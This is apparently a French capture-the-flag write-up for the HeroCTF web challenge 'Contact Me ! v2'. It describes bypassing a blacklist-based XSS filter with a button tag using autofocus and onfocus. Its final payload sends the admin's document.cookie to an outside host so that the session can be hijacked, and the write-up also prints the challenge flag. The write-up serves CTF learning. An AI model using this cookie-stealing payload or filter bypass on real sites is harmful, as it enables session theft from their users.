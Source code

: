 # Contact Me ! v2

### Catégorie

Web

### Description

Le petit développeur a bien compris la faille et a appliqué un patch.
Montrez que lui que, malgré ses efforts, ce n'est pas suffisant !

http://challs.heroctf.fr:3011/

Format : Hero{flag}

### Auteur

Worty

### Note de l'auteur

A noter qu'il existe plusieurs solutions pour flag ce challenge, ici, je n'en présenterai qu'une seule.

### Solution

Ici, nous savons que nous avons à faire à une faille de type XSS.<br/>
En revanche, l'admin a mis en place des restrictions pour se prévenir de celle-ci.

Ici, il va falloir procéder à des tests pour savoir ce que l'on a le droit de faire ou non:<br/>
- La balise "script" est interdite<br/>
- La balise "img" est interdite<br/>
- La balise "iframe" est interdite<br/>
- La balise "body" est interdite<br/>
- La balise "span" est interdite<br/>
- L'évènement "onerror" est interdit<br/>
- L'évènement "onload" est interdit<br/>
- Le caractère "+" est interdit<br/>
- La chaîne de caractère "XML" est interdite<br/>
- La fonction "open" est interdite<br/>
- La fonction "eval" est interdite<br/>
- La fonction "atob" est interdite<br/>
A noter que le script ne prend pas en compte la casse, donc même écrire ScRIpt ne marchera pas pour bypass la restriction.

Maintenant que nous savons tout ce qui est interdit, qu'est ce qu'il nous reste?<br/>
Il reste la balise "button", l'attribut autofocus et onfocus.<br/>
"autofocus" va permettre de passer la balise "button" en focus, et donc, avec l'évènement onfocus, on va pouvoir exécuter du code javascript!

Payload : < button autofocus onfocus="alert(1)">, et magie, on a une belle alert qui se lancer quand la page se réactualise!

Il y a maintenant un autre problème, le caractère "+" est aussi interdit, on va devoir utiliser la fonction concat() de javascript.<br/>
Cette fonction s'applique aux objets de type String. Exemple "a".contact("b") donnera "ab".<br/>
C'est donc comme ceci que nous allons concaténer les cookies de l'admin à notre payload !<br/>

Payload final : < button autofocus onfocus="window.location='https://worty.alwaysdata.net/cookies.php?c='.concat(document.cookie)" />

Pareil que pour le challenge précédent, je me connecte sur http://challs.heroctf.fr:3011/admin.php, je change mon cookie de session par celui de l'administrateur que j'ai récupéré, et j'actualise!

### Flag

Hero{htmlspecialchars_m4y_b3_y0ur_fr13nd_!!}